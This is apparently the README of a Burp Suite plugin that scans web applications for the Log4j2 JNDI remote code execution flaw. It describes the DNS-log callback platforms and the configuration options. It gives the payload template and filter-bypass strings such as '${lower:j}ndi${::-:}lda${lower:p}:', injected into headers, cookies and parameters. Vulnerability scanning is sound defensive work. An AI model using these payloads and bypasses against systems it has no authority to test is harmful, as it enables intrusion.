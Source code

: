 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于 https://github.com/f0ng/log4j2burpscanner/ 进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
### dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

### log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台

passivepattern=false		配合burp自带的被动扫描功能，默认关闭

ceyetoken=xxxxxx		ceye.io的用户token

ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址

privatedns=xxxxxx		用户自定义dns地址

isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头

isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头

isuseAllCookie=true		是否测试cookie

isuseRefererOrigin=false	是否测试Referer

isuseContenttype=false	是否测试Content-type

isuseAccept=false		是否测试useAccept

custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:

dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass

whitelists=*.gov.cn *.edu.cn	不进行测试的host名单

customlists=X-Client-IP X-Requested-With X-Api-Version	需要额外添加并测试的请求头，用空格分隔

config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


### output
插件加载完成后，应当出现如下字样

[+]               load successful!      

[+]        log4j2burpscanner v0.22.funny  

[+] https://github.com/f0ng/log4j2burpscanner

[+]                 recode by funnyndk      

[+]using log.xn--9tr.com now!

[+]dns address : 7f124f45.dns.1433.eu.org

[+]dns token : r3ewux4bob98

[+]You also can request to    https://log.xn--9tr.com/r3ewux4bob98    to see dnslog

其中dns address为payload中请求的域名，https://log.xn--9tr.com/r3ewux4bob98可以人为查看解析记录

### menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

### payload
真正的payload格式如下
"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"
pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


##FAQ
Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender
A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果
A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"
A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

## dev or update note

0.19.funny dev note
20220617 dev list
add a "dnslog.cn" dnslog platfrom chocie            done!
make it to a slowly passively auto-detection
more methods to bypass                              update continually...
more position in request to inject log4j2 payload   done!


20220623 dev list
fix the code bug                                    done!
test all program fuction                            done!


0.20.funny update note
20220629 update list 
fix the bug - cant send request without response to log4j2 scanner
update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response

0.21.funny update note
20220704 update list 
update the feature - change how the plugin modifies custom_dnslog_protocol


0.22.funny update note
20220801 update list
optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one
update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}
update the feature - support privatedns mode

